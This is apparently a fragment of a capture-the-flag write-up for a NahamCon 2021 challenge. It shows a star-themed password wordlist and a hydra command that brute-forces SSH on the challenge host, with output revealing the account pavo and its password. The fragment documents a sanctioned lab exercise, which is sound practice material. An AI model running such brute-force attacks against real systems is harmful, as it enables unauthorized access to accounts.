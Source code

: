 ```text
mystars
lovestars
dallasstars
moonstars
sunmoonstars
starsailor
silverstars
sevenstars
lilstars
dotaallstars
sunstars
starsun
starsstars
starsareblind
pokerstars
magicstars
divastars
blackstars
starstarstar
starsearch
luvstars
greenstars
deathstars
brightstars
twinstars
starsinthesky
starshooter
starsha
threestars
summerstars
starspirit
starshollow
starsandstripes
starsandmoons
nightstars
metrostars
icstars
hoodstars
deadstars
citystars
```

#### Crack login for pavo

```text
hydra -L users -P pass -s 31663 challenge.nahamcon.com -t 5 ssh
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-12 21:48:53
[DATA] max 10 tasks per 1 server, overall 10 tasks, 528 login tries (l:8/p:66), ~53 tries per task
[DATA] attacking ssh://challenge.nahamcon.com:31663/
[STATUS] 66.00 tries/min, 66 tries in 00:01h, 462 to do in 00:07h, 10 active
[31663][ssh] host: challenge.nahamcon.com   login: pavo   password: starsinthesky
```
